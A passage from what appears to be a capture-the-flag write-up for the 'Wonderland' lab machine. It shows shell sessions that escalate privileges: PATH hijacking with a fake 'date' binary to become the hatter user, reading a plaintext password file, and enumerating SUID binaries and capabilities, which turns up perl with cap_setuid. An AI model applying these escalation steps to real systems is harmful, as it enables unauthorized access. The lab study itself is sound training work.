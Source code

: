 # 7. Let add this to path
```bash
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ 
```
## It is gonna use prefexx of that binary so We successfull make a fake date command that give use other user , before reaching to real date command
### Let run teaParty again
```bash
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
````
## Ok i got hatter 
```bash
Probably by hatter@wonderland:/home/rabbit$ cd /home/hatter/
hatter@wonderland:/home/hatter$ ls -la
total 28
drwxr-x--- 3 hatter hatter 4096 May 25  2020 .
drwxr-xr-x 6 root   root   4096 May 25  2020 ..
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 hatter hatter  220 May 25  2020 .bash_logout
-rw-r--r-- 1 hatter hatter 3771 May 25  2020 .bashrc
drwxrwxr-x 3 hatter hatter 4096 May 25  2020 .local
-rw-r--r-- 1 hatter hatter  807 May 25  2020 .profile
-rw------- 1 hatter hatter   29 May 25  2020 password.txt
hatter@wonderland:/home/hatter$ 
```
### I got a file password.txt maybe it for hatter 
```bash
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
hatter@wonderland:/home/hatter$ su hatter 
Password: 
hatter@wonderland:~$ 
hatter@wonderland:~$ whoami
hatter
hatter@wonderland:~$ 
```
# I dont think it make any difference
## I let find suid file
```bash
find / -user root -perm /4000 2>/dev/null
```
### I dont get any usefull files
## Let try again
```bash
getcap -r / 2>/dev/null
```
# I got perl Capabilities here with suid 
```bash
alice@wonderland:~$ getcap -r / 2>/dev/null 
/usr/bin/perl5.26.1 = cap_setuid+ep
```